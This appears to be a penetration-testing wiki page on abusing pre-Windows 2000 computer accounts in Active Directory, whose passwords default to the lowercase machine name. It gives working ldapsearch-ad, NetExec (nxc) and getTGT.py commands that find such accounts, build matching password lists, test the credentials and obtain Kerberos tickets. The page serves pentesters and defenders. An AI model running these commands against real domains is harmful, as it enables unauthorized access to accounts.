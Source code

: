 ```yaml
---
authors: ShutdownRepo, mpgn
category: ad
---
```


# Pre-Windows 2000 computers

## Theory

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

## Practice

Finding computer accounts that have been "pre-created" (i.e. manually created in [ADUC](https://blog.netwrix.com/2017/01/30/active-directory-users-and-computers-aduc/) instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the `UserAccountControl` attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) flags):

* 32 - `PASSWD_NOTREQD`
* 4096 - `WORKSTATION_TRUST_ACCOUNT`

The `logonCount` attribute can be filtered as well.

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python) for instance.


```powershell
# 1. find pre-created accounts that never logged on
ldapsearch-ad -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&(userAccountControl=4128)(logonCount=0))' | tee results.txt

# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $4}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($4)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
nxc smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce
```


> You will see the error message STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT when you have guessed the correct password for a computer account that has not been used yet. ([trustedsec.com](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/))

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.

> [!SUCCESS]
> Alternatively, Filip Dragovic was able to authenticate using Kerberos without having to change the account's password. ([source](https://twitter.com/filip_dragovic/status/1524730451826511872))
> 
> ```bash
> getTGT.py $DOMAIN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD
> ```
> 
> The ticket obtained can then be used with [ptt.md](../kerberos/ptt.md)

## Resources

[https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)

[https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187](https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187)